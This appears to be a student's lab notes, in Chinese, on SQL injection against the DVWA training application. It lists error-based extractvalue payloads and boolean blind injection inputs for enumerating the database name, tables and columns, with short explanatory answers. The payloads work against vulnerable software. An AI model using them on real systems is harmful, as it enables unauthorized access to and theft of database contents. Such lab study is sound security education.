 爆表名：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 0,1)));
select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='dvwa' limit 1,1)));

爆字段数：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select count(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users')));

爆字段名（一个个爆出来）：select first_name,last_name from users where user_id='1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='dvwa' and table_name='users' limit 0,1)));

![image-20241026150525005](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026150525005.png)
（1）在extractvalue函数中，为什么'~'写在参数1的位置不报错，而写在参数2的位置报错？

因为参数1处是文件名，文件名可以是~，而参数2是文件路径，文件路径不会含~
（2）报错注入中，为什么要突破单引号的限制，如何突破？

不突破限制就只会把整个语句当成字符串识别，不会执行查询语句，在1后加'，在末尾加#可以突破限制

（3)在报错注入过程中，为什么要进行报错，是哪种类型的报错？

报错是显示语句不符合语法的报错，通过回显的报错可以查询我们需要的信息

##### 6、使用布尔盲注在前端实现“库名-表名-列名”的注入过程

爆库名长度：1‘ and length(database())>5#
![image-20241026220958711](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026220958711.png)
1‘ and length(database())>3#
![image-20241026221050333](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026221050333.png)

1‘ and length(database())=4#
![image-20241026221118855](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026221118855.png)

爆库名：1' and ascii(substr(database(),1,1))>100#
![image-20241026223300525](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223300525.png)

1' and ascii(substr(database(),1,1))=100#
![image-20241026223457675](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223457675.png)

1' and ascii(substr(database(),2,1))=118#
![image-20241026223620413](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026223620413.png)

同理一个个二分法缩小范围，最终得出数据库名为dvwa

爆表数：1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')>1)#
![image-20241026225155278](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225155278.png)
1' and (select(select count(table_name) from information_schema.tables where table_schema='dvwa')>2)#
![image-20241026225226065](C:\Users\17955\AppData\Roaming\Typora\typora-user-images\image-20241026225226065.png)
